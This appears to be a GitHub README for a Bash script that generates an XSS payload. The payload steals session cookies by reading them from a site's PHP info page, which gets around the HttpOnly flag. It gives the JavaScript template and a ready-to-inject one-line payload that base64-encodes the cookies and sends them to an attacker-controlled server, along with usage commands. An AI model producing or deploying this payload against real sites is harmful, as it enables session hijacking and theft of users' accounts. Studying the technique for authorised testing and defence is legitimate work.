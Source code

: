 # Context
This is a payload generator designed in Bash to exfiltrate user cookies through the PHP info page bypassing the HttpOnly flag during XSS exploitation. The researcher who discovered this HttpOnly bypass method is [Aleksi Kistauri](https://github.com/ls4cfk) and you can see the original post here

https://aleksikistauri.medium.com/bypassing-httponly-with-phpinfo-file-4e5a8b17129b

As you can see, the payload works correctly but it can be improved to send only the cookies and not all the HTML code that comes after it. That's why I decided to design this script and write this post on my blog

[https://hackcommander.github.io/pentesting-article-1/](https://hackcommander.github.io/posts/2022/11/12/bypass-httponly-via-php-info-page/)

to try to explain this bypass in depth, adding some additional considerations.

# What does the script do?

This script allows you to generate an XSS payload to exfiltrate user cookies through the PHP info page. The Javascript code template is

```js
<script>
  fetch(php_info_page_url)
    .then(response => response.text())
    .then(data => {
      // Define the starting and ending strings
      const startString = '<tr><td class="e">HTTP_COOKIE </td><td class="v">';
      const endString = '</td></tr>';

      // Find the index of the starting string
      const startIndex = data.indexOf(startString) + startString.length;

      // Find the index of the ending string
      const endIndex = data.indexOf(endString, startIndex);

      // Get the substring between the starting and ending strings
      const cookies = data.substring(startIndex, endIndex);

      // Encode the cookies in base64
      const encodedCookies = btoa(cookies);

      // Send the encoded cookies to the web server
      fetch(attacker_web_server_url + '?encodedCookies=' + encodedCookies, {
        method: 'GET'
      });
    });
</script>
```
where php_info_page_url is the url of the PHP info page of the website vulnerable to XSS and attacker_web_server_url is the url of the attacker web server, where the encoded cookies are sent. The payload is returned in one line and without comments, ready to be injected in HTML context.

# Installation

This repository doesn't require any installation, you only need to clone the repository

```bash
git clone https://github.com/HackCommander/PHP-info-cookie-stealer.git
```

# Usage

This is an example of use


```bash
./generate-javascript-payload.sh http://vulnerable-server-to-xss.com/phpinfo.php http://attacker-web-server.com/
```

where `http://vulnerable-server-to-xss.com/phpinfo.php` would be the url of the PHP info page of the website vulnerable to XSS and `http://attacker-web-server.com/` would be the url of your web server, where the encoded cookies are sent.


```js
<script>fetch('http://vulnerable-server-to-xss.com/phpinfo.php').then(response=>response.text()).then(data=>{const startString='<tr><td class="e">HTTP_COOKIE </td><td class="v">';const endString='</td></tr>';const startIndex=data.indexOf(startString)+startString.length;const endIndex=data.indexOf(endString,startIndex);const cookies=data.substring(startIndex,endIndex);const encodedCookies=btoa(cookies);fetch('http://attacker-web-server.com/'+'?encodedCookies='+encodedCookies,{method:'GET'});});</script>
```

This XSS payload is designed to be executed in HTML context but you can adapt it to execute in the context you need. The important thing is the Javascript code between the script tags.

# Additional comments

This tool has been developed with the help of [ChatGPT](https://chat.openai.com/chat). After a very constructive conversation, we came to the following conclusion

![ChatGPT](./images/chatGPT.png)

This is the Javascript code template that fills the script. The Bash code generation only required a few more questions.
